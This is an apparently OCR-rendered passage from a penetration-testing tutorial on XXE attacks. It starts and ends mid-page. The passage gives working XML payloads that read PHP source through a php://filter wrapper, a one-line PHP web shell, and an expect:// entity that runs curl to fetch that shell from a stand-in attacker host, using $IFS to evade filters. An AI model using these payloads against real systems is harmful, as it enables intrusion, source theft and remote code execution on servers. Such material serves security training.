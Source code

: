 **Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
## Reading Source Code (PHP)
```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```
## Remote Code Execution with XXE
through the `PHP://expect` filter, though this requires the PHP `expect` module to be installed and enabled.

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```shell-session
 echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>

<email>&company;</email>

```
**Note:** We replaced all spaces in the above XML code with `$IFS`, to avoid breaking the XML syntax. Furthermore, many other characters like `|`, `>`, and `{` may break the code, so we should avoid using them.

## 